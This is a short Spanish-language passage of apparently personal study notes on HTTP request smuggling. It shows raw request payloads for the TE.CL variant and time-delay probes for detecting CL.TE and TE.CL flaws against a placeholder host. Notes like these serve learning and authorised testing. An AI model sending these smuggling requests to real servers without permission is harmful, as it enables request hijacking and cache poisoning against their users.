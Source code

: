 * TE -> CL 
* desactivar content length automatico
```js
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
\r\n\r\n
```

####  Encontrar vulnerabilidades CL.TE usando BOMBA de Tiempo

Si una solicitud es vulnerable a la variante CL.TE del contrabando de solicitudes, entonces enviar una solicitud como la siguiente a menudo causará un retraso del tiempo:

```js
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Desde el servidor frontal utiliza el  `Content-Length`cabecera, sólo se dirigirá parte de esta petición, omitiendo el `X`. El servidor back-end utiliza el  `Transfer-Encoding`cabecera, procesa el primer trozos, y luego espera a que llegue el siguiente trozos ¿por qué? porque no hay un “0” que defina el final del envio de datos en transfer encoding como sabemos el 0 define el final. Esto causará un **retraso de tiempo**.

#### Encontrar vulnerabilidades TE.CL usando BOMBA de Tiempo

Si una solicitud es vulnerable a la variante TE.CL de contrabando de solicitudes, entonces el envío de una solicitud como el siguiente a menudo causará un retraso del tiempo:

```js
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

## Labs Stuff 
